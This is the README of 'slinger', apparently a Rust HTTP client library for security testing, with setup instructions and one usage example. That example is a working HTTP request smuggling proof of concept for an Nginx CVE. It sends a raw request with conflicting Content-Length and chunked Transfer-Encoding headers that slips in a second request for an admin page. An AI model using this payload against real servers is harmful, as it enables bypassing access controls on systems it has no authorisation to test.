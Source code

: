 <!-- Improved compatibility of back to top link: See: https://github.com/emo-crab/slinger/pull/73 -->
<a name="readme-top"></a>
<!--
*** Thanks for checking out the slinger. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]
[![crates io][crates-shield]][crates-url]




<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/emo-crab/slinger">
    <img src="images/logo.png" alt="Logo" width="80" height="80">
  </a>

<h3 align="center">slinger(投石器)</h3>

  <p align="center">
    An HTTP Client for Rust designed for hackers.
    <br />
    <a href="https://github.com/emo-crab/slinger"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/emo-crab/slinger">View Demo</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Report Bug</a>
    ·
    <a href="https://github.com/emo-crab/slinger/issues">Request Feature</a>
  </p>
</div>

<!-- ABOUT THE PROJECT -->

## About The Project

[![Product Name Screen Shot][product-screenshot]](https://example.com)

- customizable redirect policy
- http/https and socks5/socks5h proxies
- cookie store
- raw socket request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- GETTING STARTED -->

## Getting Started

This example enables some optional features, so your `Cargo.toml` could look like this:

```toml
[dependencies]
slinger = { version = "0.1.0", features = ["cookies", "charset"] }
```

And then the code:

```rust,no_run
fn main() -> Result<(), Box<dyn std::error::Error>> {
  let resp = slinger::get("https://httpbin.org/get")?;
  println!("{:?}", resp.text());
  Ok(())
}
```

<!-- USAGE EXAMPLES -->

## Example

- Nginx - Http Smuggling [CVE-2019-20372](https://scap.kali-team.cn/cve/CVE-2020-11724)
```rust
use std::io::BufRead;
use slinger::{ClientBuilder, HTTPRecord};

/// CVE-2020-11724
/// when you're using BurpSuite proxy need **disabled** "set **Connection** header on incoming request"
const RAW: &[u8] = b"GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
Content-Length: 42
Transfer-Encoding: chunked

0

GET /test1 HTTP/1.1
Host: 192.168.83.196:8081
X: GET http://192.168.83.1:8080/admin.jsp HTTP/1.0

";

fn main() -> Result<(), Box<dyn std::error::Error>> {
  // let proxy = slinger::Proxy::parse("http://127.0.0.1:8080").unwrap();
  let client = ClientBuilder::new().build().unwrap();
  let mut raw = Vec::new();
  // replace \n to \r\n
  for line in RAW.lines() {
    match line {
      Ok(l) => {
        raw.extend(l.as_bytes());
        raw.extend(b"\r\n")
      }
      Err(err) => {
        println!("{:?}", err);
      }
    }
  }
  let resp = client.raw("http://127.0.0.1:9015/", raw, true).send()?;
  let record = resp.extensions().get::<Vec<HTTPRecord>>().unwrap();
  println!("{:?}", record);
  Ok(())
}

```

_For more examples, please refer to the [example](https://github.com/emo-crab/slinger/tree/main/examples)_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTRIBUTING -->

## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any
contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also
simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- LICENSE -->

## License

Distributed under the `GPL-3.0-only` License. See `LICENSE` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- CONTACT -->

## Contact

Your Name - [@Kali_Team](https://twitter.com/Kali_Team) - root@kali-team.cn

Project Link: [https://github.com/emo-crab/slinger](https://github.com/emo-crab/slinger)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

Use this space to list resources you find helpful and would like to give credit to. I've included a few of my favorites
to kick things off!

* [reqwest](https://github.com/seanmonstar/reqwest)

<p align="right">(<a href="#readme-top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/slinger.svg?style=for-the-badge

[contributors-url]: https://github.com/emo-crab/slinger/graphs/contributors

[forks-shield]: https://img.shields.io/github/forks/emo-crab/slinger.svg?style=for-the-badge

[forks-url]: https://github.com/emo-crab/slinger/network/members

[stars-shield]: https://img.shields.io/github/stars/emo-crab/slinger.svg?style=for-the-badge

[stars-url]: https://github.com/emo-crab/slinger/stargazers

[issues-shield]: https://img.shields.io/github/issues/emo-crab/slinger.svg?style=for-the-badge

[issues-url]: https://github.com/emo-crab/slinger/issues

[license-shield]: https://img.shields.io/github/license/emo-crab/slinger.svg?style=for-the-badge

[license-url]: https://github.com/emo-crab/slinger/blob/master/LICENSE.txt

[product-screenshot]: images/screenshot.png

[crates-shield]: https://img.shields.io/crates/v/slinger.svg?style=for-the-badge

[crates-url]: https://crates.io/crates/slinger
